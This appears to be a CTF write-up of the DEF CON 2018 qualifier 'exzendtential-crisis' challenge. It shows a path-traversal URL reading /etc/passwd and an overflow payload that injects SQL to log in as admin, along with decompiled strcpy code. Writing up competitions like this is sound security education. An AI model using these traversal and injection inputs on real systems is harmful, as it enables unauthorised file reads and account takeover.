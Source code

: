 After loggin in, we found a LFI vulnerability.
`http://d4a386ad.quals2018.oooverflow.io/essays.php?preview&name=../../../../../etc/passwd`

We retrive these files from the server:

- All PHP source code, but `flag.php` is WAFed.
- /etc/php7/apache2/php.ini (not sure, I forget the exact location)
- /usr/lib/php/20151012/mydb.so (found the path in php.ini)
- /var/lib/mydb/mydb.db (found the path in mydb.so)

The main problem is the customized functions, `check_redential`, `get_user_id` .... Those function use PHP extension, written in C++, in `mydb.so`.

A quick reverse engineering will find a interesting function `check_hacker_attempt`. You can found the source code [in the official repo](https://github.com/o-o-overflow/chall-exzendtential-crisis/blob/master/src/c/mydb.cpp#L31-L69). the `strcpy` leads to a buffer overflow. It copies a `std::string` to a 100 byte C string.

Our main objective is to make `get_user_id()` return 1, which is the admin's user id. Exploiting the buffer overflow can [overwrite the table_name](https://github.com/o-o-overflow/chall-exzendtential-crisis/blob/master/src/c/mydb.cpp#L31-L69).

Here is the evil input: `print("A"*112+"users where rowid=1;--")`

The SQL query becomes:
```
select rowid from users where rowid=1;-- where username = '...' and password = '...';
```

Then the query returns 1. We are the admin now. Visit `flag.php` and get the flag!


Postscript: We fail to solve this because the reversing of `strcyp` tends to be confusing here. The code below is equal to `strcpy`. However, we somehow missed this part :(

```c++
v5 = str_len + 1;
if ( v5 >= 8 )
{
  *(_QWORD *)to_check = *(_QWORD *)username;
  *(_QWORD *)&to_check[v5 - 8] = *(_QWORD *)&username[v5 - 8];
  qmemcpy(
    (void *)((unsigned __int64)(to_check + 8) & 0xFFFFFFFFFFFFFFF8LL),
    (const void *)(username - &to_check[-((unsigned __int64)(to_check + 8) & 0xFFFFFFFFFFFFFFF8LL)]),
    8LL * ((v5 + (_DWORD)to_check - (((_DWORD)to_check + 8) & 0xFFFFFFF8)) >> 3));
}
else if ( v5 & 4 )
{
  *(_DWORD *)to_check = *(_DWORD *)username;
  *(_DWORD *)&to_check[v5 - 4] = *(_DWORD *)&username[v5 - 4];
}
else if ( v5 )
{
  *to_check = *username;
  if ( v5 & 2 )
    *(_WORD *)&to_check[v5 - 2] = *(_WORD *)&username[v5 - 2];
}
v12 = sub_34E0;
v11 = (__int64 (__fastcall *)(char *, __int64, int))sub_3220;
```
